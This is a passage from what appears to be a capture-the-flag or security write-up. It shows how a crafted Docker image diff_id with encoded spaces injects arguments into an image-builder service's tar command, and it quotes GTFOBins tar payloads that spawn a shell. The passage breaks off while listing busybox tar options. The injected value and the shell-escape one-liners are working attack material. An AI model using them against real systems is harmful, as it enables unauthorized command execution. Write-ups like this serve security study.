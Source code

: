 ```json
}
```

Let's add something to this array, for example:

```json
"rootfs": {
  "type": "layers",
  "diff_ids": [
    "sha256:75654b8eeebd3beae97271a102f57cdeb794cc91e442648544963a7e951e9558",
    "sha256:7ed7aa814b865edc71b766dcf2d45f0a47077c5752984b9f3a7beb1bbbab097e",
    "sha256:X\\x20Y\\x20Z"
  ]
}
```

Note that `sha256:` prefix will be removed. After this we need to pack the image to tarball and push it to registry. I tried many popular tools, but they used to verify hash and failed. Instead I've found a custom Python script with 12 stars: [docker-push](https://github.com/sdenel/docker-pull-push/blob/master/docker-push), and it worked.

Then image-builder service executed the following command:

```sh
tar -C .overlay -xf X Y Z.tar --overwrite
```

## Exploitation

What could we do with `tar` arguments injection? First I used [gtfobins](https://gtfobins.github.io/gtfobins/tar/) and tried to use RCE payloads:

```
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

(a) tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

(b) This only works for GNU tar.

    tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'

(c) This only works for GNU tar. It can be useful when only a limited command argument injection is available.

    TF=$(mktemp)
    echo '/bin/sh 0<&1' > "$TF"
    tar cf "$TF.tar" "$TF"
    tar xf "$TF.tar" --to-command sh
    rm "$TF"*
```

Surprisingly they didn't worked, because we deal with non-gnu `tar`. The image-builder service used [busybox](https://www.busybox.net/) as base image, so their `tar` has only the following arguments:
